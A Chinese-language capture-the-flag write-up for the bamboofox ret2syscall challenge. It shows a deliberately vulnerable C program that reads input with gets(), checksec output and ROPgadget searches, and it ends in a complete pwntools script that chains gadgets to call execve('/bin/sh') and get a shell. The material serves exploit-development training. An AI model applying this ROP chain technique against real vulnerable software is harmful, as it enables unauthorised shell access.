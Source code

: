 ```yaml
---
title: bamboofox-ret2syscall-rop
updated: 2023-05-30 13:51:13Z
created: 2022-10-10 03:20:22Z
---
```


```c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);
    
    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```

检查保护

可以看到开启了NX（不可执行）保护

```sh
└─# checksec rop    
[*] '/root/pwn/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

查看源码

![1e88d535f02e7bbff8c6859b8db931b9.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/1e88d535f02e7bbff8c6859b8db931b9.png)

由于开启了NX保护，无法将shellcode部署到内存中，故而尝试调用系统函数获得shell

尝试通过溢出调用执行`execve("/bin/sh",NULL,NULL)`获得shell

`execve("/bin/sh",NULL,NULL)`的指令如下

```asm
mov eax, 0xb

mov ebx, [“/bin/sh”]

mov ecx, 0

mov edx, 0

int 0x80
```

**x86 通过 int 0x80 指令进行系统调用**

**amd64 通过 syscall 指令进行系统调用**

这里使用ropgadget寻找合适的片段

首先查找eax

```sh
└─# ROPgadget --binary rop --only='pop|ret' |grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

这里选择 `0x080bb196 : pop eax ; ret`

接下来寻找ebx,ecx,edx

```sh
└─# ROPgadget --binary rop --only='pop|ret' |grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

这里选择`0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret` ，可以一次性控制ebx,ecx,edx三个寄存器

接下来寻找/bin/sh字段

```sh
└─# ROPgadget --binary rop --string='/bin/sh'           
Strings information
============================================================
0x080be408 : /bin/sh
```

最后寻找中断指令int 0x80

```sh
└─# ROPgadget --binary rop --only='int'     
Gadgets information
============================================================
0x08049421 : int 0x80
```

所以总的就是

```python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
bin_sh = 0x80be408
payload = flat([b'a' * 0x70,  pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, bin_sh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

执行结果如下所示

![a853f3cfa10b02ca4dbed505dcef59e3.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/a853f3cfa10b02ca4dbed505dcef59e3.png)